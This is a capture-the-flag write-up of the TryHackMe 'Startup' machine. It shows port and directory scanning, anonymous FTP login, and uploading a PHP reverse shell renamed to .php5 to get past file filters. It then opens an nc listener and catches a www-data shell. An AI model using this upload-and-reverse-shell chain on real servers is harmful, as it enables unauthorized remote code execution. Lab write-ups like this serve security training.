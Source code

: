 # Startup THM machine that is about peppers:

## Recon
Let's run `rustscan` and the `feroxbuster` for the given IP:
**RustScan**
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports: The virtual equivalent of knocking on doors.

[~] The config file is expected to be at "/home/forust/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.49.95:21
Open 10.10.49.95:22
Open 10.10.49.95:80
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-03 20:52 EEST
Initiating Ping Scan at 20:52
Scanning 10.10.49.95 [2 ports]
Completed Ping Scan at 20:52, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:52
Completed Parallel DNS resolution of 1 host. at 20:52, 0.21s elapsed
DNS resolution of 1 IPs took 0.21s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 20:52
Scanning 10.10.49.95 [3 ports]
Discovered open port 80/tcp on 10.10.49.95
Discovered open port 22/tcp on 10.10.49.95
Discovered open port 21/tcp on 10.10.49.95
Completed Connect Scan at 20:52, 0.06s elapsed (3 total ports)
Nmap scan report for 10.10.49.95
Host is up, received syn-ack (0.061s latency).
Scanned at 2025-06-03 20:52:29 EEST for 0s

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```

**Feroxbuster:**
```
301      GET        9l       28w      310c http://10.10.49.95/files => http://10.10.49.95/files/
200      GET        1l       40w      208c http://10.10.49.95/files/notice.txt
200      GET        1l       40w      208c http://10.10.49.95/files/ftp/notice.txt
200      GET       20l      113w      808c http://10.10.49.95/                            301      GET        9l       28w      310c http://10.10.49.95/files => http://10.10.49.95/files/200      GET        1l       40w      208c http://10.10.49.95/files/notice.txt 
```
From the feroxbuster we got a point to an FTP, let's try to login with the default credentials
```
anonymous
anonymous
```
And we got a response:
```
Connected to 10.10.49.95.
220 (vsFTPd 3.0.3)
Name (10.10.49.95:forust): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Jun 03 17:46 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

Let's switch to the browser and try to access `/files` directory:
![](Pasted%20image%2020250603205759.png)
We got some files and an `ftp` directory. I'll download them all and try to acess ftp directory:
![](Pasted%20image%2020250603205937.png)
*Originaly, it was an empty directory. I manualy put there notice.txt to test ability to put files there*

Let's read `notice.txt`:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

Okay, let's view the image:
![](important.jpg)

okay, rly some unusable image.

Maybe, because of our machine is a website, let's put some php scripts to the `ftp ` folder. Im using [pentestmonkey's php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
also, i'll rename my `.php` to `.php5` to bypass possible file restrictions:
```
ftp> put reverse.php5
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.0001 seconds (102.0652 Mbytes/s)
ftp> 
```
```
#Setting up listerner:
nc -lvnp
```
And let's open reverse-shell it from the browser
```
Connection from 10.10.49.95:42078
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:13:05 up 38 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```
And we have the shell.
Let's change directory to the root:
```
cd /
ls
$ cd /
$ ls
bin
boot
dev
etc
home
incidents
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
recipe.txt
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
vmlinuz
vmlinuz.old
```